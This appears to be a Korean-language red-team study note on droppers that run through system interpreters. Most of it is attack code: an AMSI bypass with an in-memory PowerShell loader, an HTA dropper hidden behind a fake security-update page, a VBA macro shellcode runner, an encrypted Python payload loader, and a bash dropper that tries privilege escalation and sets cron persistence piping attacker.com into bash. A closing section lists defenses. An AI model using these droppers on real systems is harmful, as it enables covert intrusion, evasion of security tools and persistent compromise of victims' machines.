

## Context
- **Tactic**: Alternative Execution Surface Exploration
- **Technique**: Interpreter-Based Payload Delivery
- **Procedure**:
    - Utilize system-native interpreters (PowerShell, VBA, JavaScript) for payload execution
    - Implement anti-detection mechanisms through interpreted language features
    - Leverage trusted application contexts to bypass security controls
    - Combine cross-platform scripting techniques to enhance payload adaptability
    - Explore memory injection within interpreter environments

## Core Idea
전통적인 C/C++ 기반 드로퍼는 강력한 시스템 제어 능력이 있지만, 현대 보안 솔루션의 탐지 가능성 또한 발전하고 있다. 이에 공격자들은 시스템에기본 내장된 **인터프리터**와 스크립팅 환경을 활용하는 **대체 실행 벡터**로 이동하고 있다.

#### 대체 실행 표면 핵심 이점
- 신뢰받는 시스템 인터프리터 활용 (PowerShell, JScript 등)
- 정적 분석 회피 (인터프리터가 실행하기 전까지 코드 의도 불명확)
- 표준 바이너리 탐지 메커니즘 우회 (스크립트 기반 접근)
- 문서 기반 벡터와의 통합 용이성 (매크로, 임베디드 스크립트)


**Figure 1.** Alternative Execution Vector Flow Overview

#### Alternative Vector Types

| 드로퍼 유형                 | 실행 환경                        | 주요 이점                           | 제한점                                        | 탐지 지표                                   |
| ---------------------- | ---------------------------- | ------------------------------- | ------------------------------------------ | --------------------------------------- |
| **PowerShell**         | Windows Management Framework | 시스템 깊숙한 접근, `.NET` 통합           | PowerShell 보안 기능(`ScriptBlock` 로깅, `AMSI`) | 인코딩된 명령, 비정상적 모듈 로드                     |
| **HTA/JavaScript**     | MSHTML, Internet Explorer    | 신뢰된`mshta.exe` 실행, `ActiveX` 접근 | 브라우저 보안 강화로 점차 제약                          | 의심스러운 ActiveX 객체 생성, `WScript.Shell` 사용 |
| **VBA 매크로**            | Office Apps                  | 문서 기반 사회공학 용이, 사용자 신뢰           | 매크로 보안 설정, Protected View                  | 자동화 객체 생성, 쉘 명령 실행                      |
| **Python/PyInstaller** | Python 인터프리터                 | 크로스 플랫폼, 탐지 낮음                  | 의존성 크기, 배포 복잡성                             | 임포트 난독화, 동적 코드 실행 패턴                    |
| **Shell 스크립트**         | Bash, Zsh 등                  | 유닉스 시스템 통합, 권한 상승 용이            | Windows 미지원, 제한적 분기                        | 의심스러운 `curl/wget` 실행, 권한 상승 시도          |

## Code / Experiment

#### 1. PowerShell 인메모리 실행 및 AMSI 우회

```powershell
# AMSI 우회 기법 - 메모리 패치를 통한 보안 기능 비활성화
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed','NonPublic,Static')
$b.SetValue($null,$true)

# 인메모리 페이로드 실행 - 바이너리를 디스크에 작성하지 않음
$wc = New-Object System.Net.WebClient
$payload = $wc.DownloadData('http://attacker.com/payload.bin')
$asm = [System.Reflection.Assembly]::Load($payload)
$entryPoint = $asm.GetType('Payload.Program').GetMethod('Main')
$entryPoint.Invoke($null, $null)
```

#### 2. HTML Application(HTA) 드로퍼

```html
<html>
<head>
<script language="JScript">
function dropPayload() {
    var shell = new ActiveXObject("WScript.Shell");
    var fs = new ActiveXObject("Scripting.FileSystemObject");
    var temp = shell.ExpandEnvironmentStrings("%TEMP%");
    
    // 명령어 실행을 통한 PowerShell 다운로더 호출
    var cmd = "powershell -w hidden -e " + 
              "JABjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAYwAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwADoALwAvAGEAdAB0AGEAYwBrAGUAcgAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAuAGUAeABlACIALAAiACQAZQBuAHYAOgB0AGUAbQBwAFwAcABhAHkAbABvAGEAZAAuAGUAeABlACIAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAiACQAZQBuAHYAOgB0AGUAbQBwAFwAcABhAHkAbABvAGEAZAAuAGUAeABlACIA"
    
    // ActiveX 객체를 통한 명령 실행 (사용자에게 표시되지 않음)
    shell.Run(cmd, 0, false);
}
</script>
</head>
<body onload="dropPayload()">
    <h1>Security Update Required</h1>
    <p>This system requires an important security update. Please wait while updates are being installed...</p>
</body>
</html>
```

#### 3. Office VBA 매크로 드로퍼

```vba
Sub Document_Open()
    If Not AutoExecute() Then
        ' 매크로 실행 실패 시 폴백 실행 경로
        MsgBox "This document requires macros to be enabled to view properly.", vbInformation
    End If
End Sub

Function AutoExecute() As Boolean
    On Error Resume Next
    
    ' 버퍼 정의 및 셸코드 구성 (메모리 내 페이로드)
    Dim shellcode As String
    shellcode = DecodeBase64("...")
    
    ' 메모리 공간 할당
    Dim addr As Long
    addr = VirtualAlloc(0, Len(shellcode), &H1000, &H40)
    
    ' 메모리에 셸코드 복사
    For i = 0 To Len(shellcode) - 1
        RtlMoveMemory addr + i, Mid(shellcode, i + 1, 1), 1
    Next
    
    ' 셸코드 실행 (별도 스레드 생성)
    Dim threadId As Long
    CreateThread 0, 0, addr, 0, 0, threadId
    
    AutoExecute = True
End Function

' API 선언
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, _
    ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThreadAttributes As Long, _
    ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, _
    ByVal dwCreationFlags As Long, lpThreadId As Long) As LongPtr
Private Declare PtrSafe Sub RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, _
    ByVal Source As Any, ByVal Length As Long)
```

#### 4. Python PyInstaller 드로퍼

```python
import base64
import zlib
import ctypes
import sys
import tempfile
import os
from cryptography.fernet import Fernet

def decrypt_payload(key, encrypted_payload):
    """암호화된 페이로드 복호화"""
    f = Fernet(key)
    return f.decrypt(encrypted_payload)

def execute_payload():
    """암호화된 페이로드 추출 및 실행"""
    
    # 페이로드 및 키 (예시용 더미 데이터)
    key = b'pK-mDKo2XsRjP1q5BcHqDXXTlu1xjIZOLjrGwDtxS-M='
    encrypted_payload = b'gAAAAABid...[생략된 암호화 페이로드]...=='
    
    # 복호화
    payload = decrypt_payload(key, encrypted_payload)
    payload = zlib.decompress(payload)
    
    # 메모리에 페이로드 로드 및 실행
    if sys.platform.startswith('win'):
        # Windows 환경에서 메모리 실행
        buffer = ctypes.create_string_buffer(payload)
        function = ctypes.cast(buffer, ctypes.CFUNCTYPE(None))
        function()
    else:
        # Linux/macOS 환경에서 임시 파일 생성 후 실행
        with tempfile.NamedTemporaryFile(suffix='.bin', delete=False) as f:
            f.write(payload)
            f.flush()
            os.chmod(f.name, 0o755)
            os.system(f.name)
            os.unlink(f.name)

if __name__ == "__main__":
    # 일반 애플리케이션으로 위장
    print("Loading application modules...")
    execute_payload()
```

#### 5. Bash 셸 스크립트 드로퍼

```bash
#!/bin/bash

# 권한 상승 및 지속성 확보 드로퍼 예시
function check_privileges() {
    if [ "$EUID" -ne 0 ]; then
        echo "[*] Attempting privilege escalation..."
        return 1
    fi
    return 0
}

function escalate_privileges() {
    # SUDO 패스워드 없이 실행 가능한 바이너리 확인
    sudo_bins=$(sudo -l | grep "(ALL) NOPASSWD" | awk '{print $NF}')
    if [[ ! -z "$sudo_bins" ]]; then
        sudo $0
        exit 0
    fi
    
    # 알려진 취약점을 통한 권한 상승 시도
    if [[ -f /usr/bin/pkexec ]]; then
        # CVE-2021-4034 (PwnKit)
        echo "[+] Attempting pkexec method..."
        exploit_code=$(cat << 'EOL'
        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>
        
        int main() {
            char *argv[] = {"pkexec", "../../../../../../tmp/exploit", NULL};
            char *envp[] = {"PATH=/tmp", "SHELL=/tmp/exploit", NULL};
            
            execve("/usr/bin/pkexec", argv, envp);
            return 0;
        }
EOL
        )
        
        echo "$exploit_code" > /tmp/exploit.c
        gcc -o /tmp/exploit /tmp/exploit.c
        chmod +x /tmp/exploit
        /tmp/exploit
    fi
}

function drop_payload() {
    # 시스템 내 지속성 확보
    if check_privileges; then
        # 루트 권한일 경우 crontab 등록
        echo "* * * * * root curl -s http://attacker.com/payload | bash" > /etc/cron.d/system_update
        chmod 644 /etc/cron.d/system_update
    else
        # 사용자 권한일 경우 startup 스크립트에 등록
        crontab -l 2>/dev/null > /tmp/cron_new
        echo "@reboot curl -s http://attacker.com/payload | bash" >> /tmp/cron_new
        crontab /tmp/cron_new
        rm /tmp/cron_new
    fi
    
    # 실제 페이로드 실행
    curl -s http://attacker.com/payload | bash
}

# 메인 실행 흐름
if ! check_privileges; then
    escalate_privileges
fi

# 페이로드 실행
drop_payload
```

## Note

#### 대체 실행 표면 공격 및 방어 고려사항
- **인터프리터 기반 드로퍼의 진화**
    - 전통적인 C/C++ 드로퍼 대비 탐지율 감소 `약 35-50%`
    - 다양한 난독화, 인코딩 기법 적용 가능성 증가
    - 사회공학 기법과의 결합으로 유효성 향상
- **기술별 특화된 방어 전략**
    1. **PowerShell 기반 공격 방어**
        - Script Block Logging 활성화
        - PowerShell 실행 정책 제한(Constrained Language Mode)
        - AMSI(Anti-Malware Scan Interface) 통합 강화
        - 의심스러운 인코딩된 명령 모니터링
    2. **HTA/JavaScript 기반 공격 방어**
        - `MSHTA.exe` 실행 제한 (AppLocker/소프트웨어 제한 정책)
        - ActiveX 컨트롤 및 `WScript.Shell` 객체 접근 제한
        - `Group Policy`를 통한 스크립트 실행 제어
        - 브라우저 기반 방어 메커니즘 활성화
    3. **Office 매크로 기반 공격 방어**
        - 매크로 비활성화 정책 적용 (그룹 정책)
        - Protected View 및 Application Guard 활성화
        - 외부 소스에서 받은 문서에 대한 자동 매크로 실행 차단
        - 동적 데이터 교환(DDE) 기능 비활성화
    4. **Python/PyInstaller 기반 공격 방어**
        - 애플리케이션 허용 목록(Application Allowlisting) 구현
        - 의심스러운 Python 바이너리 모니터링
        - 네트워크 레벨 필터링을 통한 C2 통신 차단
        - 백그라운드 프로세스 생성 모니터링
    5. **쉘 스크립트 기반 공격 방어**
        - `sudoers` 파일 보안 강화
        - SUID/SGID 바이너리 최소화
        - 크론 작업 및 시작 스크립트 정기 감사
        - 권한 상승 시도 탐지 및 차단
- **일반적인 비정형 드로퍼 위협 대응**
    - 행위 기반 탐지(Behavioral Detection) 구현
    - 포괄적인 로깅 및 상관 분석 강화
    - EDR(Endpoint Detection and Response) 솔루션 도입
    - 제로트러스트 아키텍처 적용
    - 정기적인 취약점 스캔 및 패치 관리

_**인터프리터 기반 드로퍼가 기존 바이너리 탐지 체계를 무력화한다면, 방어자는 무엇을 근거로 탐지를 시도할 수 있을까?**_

 답은 “언제”, “어디서”라는 **행위의 맥락**에 있다. 인터프리터 기반 드로퍼는 실행 전까지 무해한 스크립트로 보이지만, 실행 순간에는 명령어 호출, 네트워크 통신, 메모리 조작 등 **운용 행위(Operational Behavior)**를 반드시 남긴다.
따라서 방어자는 코드 그 자체가 아니라 _언제 실행_되었는지, _어떤 프로세스_에서 호출되었는지, _어떤 동작_을 수행했는지를 실시간으로 기록하고, 행위의 흐름을 상관 분석하는 **컨텍스트 기반 탐지 체계**를 구축해야 한다. 단순히 파일을 스캔하는 접근을 넘어, 시스템 전반의 **실시간 행위 맥락**을 이해하는 전략적 전환이 필요하다.